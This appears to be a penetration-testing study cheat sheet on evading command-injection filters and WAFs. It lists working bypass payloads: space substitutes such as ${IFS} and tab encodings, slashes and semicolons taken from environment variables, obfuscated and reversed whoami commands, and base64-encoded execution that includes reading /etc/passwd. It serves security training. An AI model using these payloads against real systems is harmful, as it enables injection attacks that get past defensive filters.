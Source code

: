# Filter Evasion

## Identifying Filters

**Filter/WAF Detection**

`If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF`

**Identifying Blacklisted Character**

* Try intended input then follow by other characters slowly until we hit the error.

## Bypassing Space Filters

* Use tab instead of space `127.0.0.1%0a%09`
* Using the ($IFS) Linux Environment Variable `127.0.0.1%0a${IFS}`
  * default of this variable is a space
* Using brace expansion `127.0.0.1%0a{ls,-la}`
* More on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)

## Bypassing Other Blacklisted Characters

A very commonly blacklisted character is the slash (`/`) or backslash (`\`) character, as it is necessary to specify directories in Linux or Windows.

**Linux**

We can use the / character from $PATH variable

```shell-session
echo ${PATH}
/usr/local/bin:/usr/bin:/bin:/usr/games

echo ${PATH:0:1}
/
```

```shell-session
echo ${LS_COLORS:10:1}
;
```

**Windows**

Similar concept to linux, getting a character from a known variable

```cmd-session
C:\htb> echo %HOMEPATH:~6,-11%
\
```

```powershell-session
PS C:\htb> $env:HOMEPATH[0]
\
```

We can also use the `Get-ChildItem Env:` PowerShell command to print all environment variables and then pick one of them to produce a character we need.

**Character Shifting**

```bash
man ascii     # \ is on 92, before it is [ on 91
echo $(tr '!-}' '"-~'<<<[)

\
```

## Bypassing Blacklisted Commands

**Linux**

```bash
who$@ami
w\ho\am\i
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$(a="WhOaMi";printf %s "${a,,}")
$(rev<<<'imaohw')
```

Base64

```shell-session
echo -n 'cat /etc/passwd | grep 33' | base64
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

**Windows**

```cmd-session
who^ami
```

```powershell-session
PS C:\htb> WhOaMi
PS C:\htb> "whoami"[-1..-20] -join ''
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"
```

Base64

<pre class="language-powershell-session"><code class="lang-powershell-session"><strong>PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
</strong>iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
</code></pre>

**Both**

```shell-session
w'h'o'am'i
```

```shell-session
w"h"o"am"i
```
